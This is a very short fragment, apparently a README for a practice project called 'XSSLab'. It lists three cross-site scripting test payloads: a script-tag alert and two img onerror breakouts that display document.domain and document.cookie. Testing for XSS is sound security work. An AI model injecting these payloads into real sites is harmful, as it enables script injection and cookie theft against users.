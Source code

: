 # XSSLab

<script>alert(1)</script>

">]<img src=x onerror=alert(document.domain)> ">]<img src=x onerror=alert(document.cookie)>
